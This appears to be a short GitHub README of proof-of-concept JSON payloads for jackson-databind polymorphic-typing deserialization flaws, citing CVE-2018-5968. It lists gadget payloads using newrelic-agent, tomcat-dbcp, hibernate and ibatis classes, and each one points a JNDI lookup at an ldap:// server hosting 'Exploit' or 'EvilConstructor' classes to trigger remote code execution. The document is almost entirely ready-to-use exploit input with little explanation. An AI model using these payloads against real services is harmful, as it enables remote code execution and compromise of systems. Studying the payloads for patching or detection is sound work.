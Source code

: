 FasterXML jackson-databind 2.x before 2.9.10.8 mishandles the interaction between serialization gadgets and typing, 
related to com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource
newrelic-agent
```json
["com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource", {"jndiLocation":"ldap://127.0.0.1:1288/Exploitt"}]
```
tomcat-dbcp
```json
["org.apache.tomcat.dbcp.dbcp2.datasources.PerUserPoolDataSource", {"dataSourceName":"ldap://127.0.0.1:1399/Exploit"}]
```

This is PoC with two different gadgets to reproduce CVE-2018-5968 which can be used to exploit the default typing in jackson-databind.
```json
{
  "id": 1111,
  "obj": [
    "org.hibernate.jmx.StatisticsService",
    {
      "sessionFactoryJNDIName": "ldap://127.0.0.1/EvilConstructor"
    }
  ]
}
```
```json
{
  "id": 1111,
  "obj": [
    "org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
    {
      "properties":
        {
          "data_source": "ldap://127.0.0.1/EvilConstructor"
        }
    }
  ]
}
```
